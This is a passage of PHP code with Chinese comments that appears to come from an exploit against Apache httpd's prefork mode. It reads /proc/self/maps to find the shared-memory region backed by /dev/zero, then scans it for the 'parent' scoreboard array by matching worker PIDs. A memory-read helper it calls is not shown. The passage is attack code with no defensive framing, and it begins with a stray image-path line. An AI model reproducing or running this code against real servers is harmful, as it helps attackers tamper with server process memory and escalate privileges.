     */
    function get_mem_region($str)
    {
        $file = fopen("/proc/self/maps","r");
        $result_index = 0;
        $result = array();
        while(!feof($file)){
            $line = fgets($file);
            if(strpos($line,$str)){
                $addr_len = 0;
                for(;$line[$addr_len]!='-';$addr_len++);

                $start_addr_str =  substr($line,0,$addr_len);
                $end_addr_str = substr($line,$addr_len+1,$addr_len);

                $result[$result_index][0] = hexdec($start_addr_str);
                $result[$result_index][1] = hexdec($end_addr_str);
                $result[$result_index][2] = substr($line,$addr_len*2+2,4);
                $result_index++;
            }
        }
        fclose($file);

        return $result;
    }


    function locate_parent_arr_addr()//获取共享内存中，parent数组的首地址
    {
        $my_pid = getmypid();
        $shm_region = get_mem_region("/dev/zero");
        if(!count($shm_region))
            return 0;

        //parent数组项的大小是，每个0x20个字节
        //pid_t在我环境中，大小4字节
        $pid_t_size = 4;
        $parent_size = 0x24;

        //只检查共享内存的前0x1000字节(4KB)
        for($i = 0;$i<0x1000;$i++){
            $hit_count = 0;
            for($j = 0;$j<5;$j++){//循环次数，请参考httpd-mpm.conf中的prefork的MinSpareServers
                $pid = read_mem_dword($shm_region[0][0]+ $i + $j*$parent_size);
                if( $my_pid - 20 < $pid && $pid < $my_pid+20){//因为prefork中，进程的pid是紧挨的，我们可以通过这个来判断是否是parent数组的首地址
                    $hit_count++;    
                }
            }
            if($hit_count == 5){
                return $shm_region[0][0]+$i;
            }
        }


        return 0;
    }
